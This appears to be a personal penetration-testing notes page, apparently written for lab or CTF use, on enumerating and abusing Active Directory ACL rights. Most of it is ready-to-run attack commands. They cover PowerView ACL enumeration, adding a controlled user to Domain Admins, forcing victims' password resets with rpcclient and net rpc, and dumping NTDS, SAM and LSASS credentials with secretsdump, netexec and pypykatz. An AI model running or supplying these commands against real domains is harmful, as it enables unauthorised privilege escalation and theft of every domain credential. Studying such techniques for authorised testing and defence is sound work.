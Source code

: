 Typically, [[Bloodhound (legacy)]] can be sufficient...

There may be scenarios in which BloodHound SUCKS. In which case you may have to manually enumerate Access Control Entries (ACEs) domain users, and groups to see what rights they have over other users.
## ACL Enumeration

Before proceeding, note that you should probably start enumerating users you have control over...

Enumerating ACLs of Users OR Groups with PowerView
```powershell
# PowerView
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid "<user> OR <group>"
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# What if -ResolveGUIDs doesn't work?
$guid= "<GUID>"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

Enumerating ACLs of Users with Get-ACL (if we cant use PowerView)
```PowerShell
# Create List of Domain Users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# foreach Loop to find ACL of specific user
foreach($line in [System.IO.File]::ReadLines("C:\path\to\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<domain>\\<user>'}}
```

Enumerating Groups
```PowerShell
# Enumerate group info
Get-DomainGroup -Identity "<group>" 

# Find parent group
| select memberof
```
This can be useful if a user is a member of a group that INHERITS its parent's group rights

After Enumerating, you can proceed to ACL Attacks
## ACL Attacks

| ACE                 | Cmdlet                                          |
| ------------------- | ----------------------------------------------- |
| ForceChangePassword | Set-DomainUserPassword                          |
| Add Members         | Add-DomainGroupMember                           |
| GenericAll          | Set-DomainUserPassword or Add-DomainGroupMember |
| GenericWrite        | Set-DomainObject                                |
| WriteOwner          | Set-DomainObjectOwner                           |
| WriteDACL           | Add-DomainObjectACL                             |
| AllExtendedRights   | Set-DomainUserPassword or Add-DomainGroupMember |
| AddSelf             | Add-DomainGroupMember                           |
This is a table of commonly abused ACEs and the corresponding PowerShell Cmdlet that may be leveraged to abuse them

Googling these will demonstrate the proper workflow... Below are some common scenarios I have run into.

#### GenericWrite
If we have GenericWrite, we can add users to groups
	`net rpc` might work when `net group` fails
```bash
# net rpc method (linux)

net rpc group addmem "Domain Admins" "<Target_User>" -U '<domain>'/'<controlled_user>'%'<password>' -S <dc_ip>


# BloodyAD method

bloodyAD --host "<dc_ip>" -d "<domain>" -u "<controlled_user>" -p "<password>" add groupMember "Domain Admins" "<user>"


# net group method (windows)

net group "domain admins" <user> /add /domain # /domain if it is a domain group


# powershell method

powershell -ep bypass
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members '<user>' -Credential $Cred
```

#### GenericAll (Group Priv Abuse)

If a principal you have owned belongs to a group/OU which is hierarchically ABOVE another, you can force a password reset of users in that group

This can be done remotely
```bash
# force pass reset via RPC
rpcclient -N  <ip_address> -U '<controlled_user>%<pass>'
$> setuserinfo2 <victim> 23 'Password123!'

# net rpc version (from kali)
net rpc password "TargetUser" "Password123!" -U "DOMAIN"/"ControlledUser"%"Password" -S <dc_ip>
```
if this fails, consider resetting box (this happened to me before)

#### DCSync (Dumping)
A DCSync is where we impersonate a DC and ask a victim DC to send across a copy of its data like SAM, NTDS, etc... The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right.

impacket-secretsdump see [[Credential Dumping]]
	requires user account with adequate privs
	if using -hashes, format is LMHASH:NTHASH. you can just provide the NTLM hash like this
	`:<NTLM_HASH>`
```bash
# locally

impacket-secretsdump -sam <SAM> -system <SYSTEM> -security <SECURITY> -ntds <NTDS.dit> LOCAL

# Remotely

impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY -ntds NTDS -dc-ip <dc_ip> '<domain>'/'<username>':'<password>'@<target>

```

netexec
	requires user account with adequate privs
```bash
#domain hashes
nxc smb <ip> -u <user> -p <pass> --ntds

#local hashes
nxc smb <ip> -u <user> -p <pass> --sam
```


Not a DCSync but still dumping
If we have a .dmp file, we can dump with pypykatz
```bash
pypykatz lsa minidump lsass.dmp
```
